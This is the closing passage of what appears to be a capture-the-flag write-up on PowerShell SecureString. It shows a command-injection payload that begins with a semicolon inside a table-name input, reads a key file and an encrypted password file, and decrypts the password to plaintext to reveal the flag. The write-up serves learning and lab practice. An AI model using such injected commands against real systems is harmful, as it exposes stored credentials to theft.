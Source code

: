 Let's try our attack payload to see what happens:

```bash
Table to dump:
> ; $key2 = Get-Content $KeyFile; $SecurePassword = Get-Content .passwd.crypt | ConvertTo
-SecureString -key $key2; $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringT
oBSTR($SecurePassword); $PlainPassword = [System.Runtime.InteropServices.Marshal]::PtrToS
tringAuto($BSTR); echo $PlainPassword
Connect to the database With the secure Password: System.Security.SecureString. Backup th
e table
SecureStringBypass
```

And there we have it! Our flag!

# [](#conclusions) Conclusion

In this CTF, we understood how secure strings work in powershell. We learned how to create secure strings and how to convert them back to a binary string. We also learned how to encrypt & decrypt secure strings using `ConvertTo-SecureString` and `ConvertFrom-SecureString` cmdlets.

We were able to solve this challenge because we found a command injection (thanks to our level 1 solution), followed by the conversion from secure string to binary string. 

I hope you liked this write-up and learned something now. As always, don't forget to do your **research!**



<a href="/">Go back</a>



